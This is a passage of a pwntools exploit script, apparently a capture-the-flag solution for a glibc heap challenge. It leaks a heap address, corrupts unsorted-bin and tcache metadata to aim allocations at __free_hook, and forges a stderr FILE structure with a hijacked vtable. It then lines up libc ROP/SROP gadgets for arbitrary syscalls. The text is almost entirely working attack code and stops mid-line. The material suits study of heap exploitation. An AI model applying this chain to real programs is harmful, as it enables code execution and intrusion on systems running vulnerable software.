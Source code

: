 ```
Edit(0, exp)
Delete(2)       #UB&lt;=&gt;chunkC
Create(0x450)   #trigger sort

#leak heap addr
Show(0)
heap_addr = u64(sh.recv(6).ljust(8, '\x00'))-0xb10
Log('heap_addr')

#withdraw chunk C, so tcache = chunk A
Create(0x410)

#stderr = chunkC
addr = libc.address+0x1e47a0
exp = flat(0, 0, 0, addr-0x20)
Edit(0, exp)
Delete(9)       #UB&lt;=&gt;chunkC
Create(0x450)   #trigger sort

#forge tcache
exp = p16(0x7)*64   #tcache.counts
exp+= p64(libc.symbols['__free_hook']-0x10)*64
Edit(0, exp)

#GDB()

#forge stderr
'''
  char *_IO_read_ptr;    /* Current read pointer */
  char *_IO_read_end;    /* End of get area. */
  char *_IO_read_base;    /* Start of putback+get area. */
  char *_IO_write_base;    /* Start of put area. */
  char *_IO_write_ptr;    /* Current put pointer. */
  char *_IO_write_end;    /* End of put area. */
  char *_IO_buf_base;    /* Start of reserve area. */
  char *_IO_buf_end;    /* End of reserve area. */
'''
old = heap_addr + 0x6f0     #old = chunkB
exp = p64(0xfbad2087)
exp+= flat(0, 0, 0)
exp+= flat(old, old+0x100, 0)
exp+= flat(old, old+0x100)
exp = exp.ljust(0x88, '\x00')
exp+= p64(libc.address+0x1e6680)
exp = exp.ljust(0xd8, '\x00')
exp+= p64(libc.address+0x1E5580-0x8*4)  #f-&gt;vtable = _IO_str_jumps-0x8*4
Edit(2, exp[0x10:])

#SROP
rdx_GG = libc.address+0x14b760  #mov rdx, qword ptr [rdi + 8]; mov qword ptr [rsp], rax; call qword ptr [rdx + 0x20];
rdi = libc.address+0x2858f
rsi = libc.address+0x2ac3f
rdx_r12 = libc.address+0x114161
syscall = libc.address+0x611ea
rax = libc.address+0x45580
ret = libc.address+0x26699
buf = heap_addr+0x200

def Call(sys, a, b, c):
    return flat(rax, sys, rdi, a, rsi, b, rdx_r12, c, 0, syscall)

exp = '\x00'*0x8
```